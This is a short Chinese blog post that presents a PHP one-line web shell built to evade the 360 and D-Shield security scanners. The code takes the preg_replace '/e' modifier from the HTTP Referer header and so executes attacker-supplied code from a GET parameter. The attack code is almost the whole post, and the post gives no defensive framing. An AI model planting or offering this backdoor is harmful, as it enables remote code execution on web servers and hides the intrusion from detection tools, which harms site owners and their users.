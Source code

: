 ```yaml
---
layout: post
title:  "过360查杀D盾一句话"
date:   2016-10-12 17:04:52
comments: true
categories: php update
---
```

preg_replace(//) 函数加/e可以执行代码 。 这里的 “e”我使用referer的方式来获取， 绕过了检测

{% highlight php %}
<?php
$server= $_SERVER['HTTP_REFERER'];
$s[1]=$server;
preg_replace("/t/{$s[1]}",$_GET["h"],"t");


{% endhighlight %}

 ![img](https://striker.teambition.net/thumbnail/110lc0f74e834ec7663908097a2663346161/w/800/h/847)
